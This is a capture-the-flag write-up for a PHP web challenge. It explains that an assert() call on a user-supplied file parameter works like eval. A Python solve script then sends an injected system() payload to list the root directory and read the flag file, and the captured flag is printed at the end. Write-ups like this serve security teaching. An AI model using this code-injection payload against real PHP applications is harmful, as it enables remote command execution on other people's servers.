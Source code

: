 ```yaml
---
created: 2024-07-19T15:44
updated: 2024-07-21T18:39
points: 100
solves: 518
tags:
  - php
  - assert
---
```


## assert

```php
assert("strpos('$file', '..') === false") or die("Invalid file!");
```

This line is dangerous as the assert statement is acting as `eval`.
It is running user supplied strings as code.

Our payload is hence simple.
## solve script

```python
import requests
import urllib.parse
payload = urllib.parse.quote_plus("'.die(system('ls /')).'")
print(requests.get("http://journal.chal.imaginaryctf.org/?file="+payload).text)

payload = urllib.parse.quote_plus("'.die(system('cat /flag-cARdaInFg6dD10uWQQgm.txt')).'")
print(requests.get("http://journal.chal.imaginaryctf.org/?file="+payload).text)
```

```flag
ictf{assertion_failed_e3106922feb13b10}
```
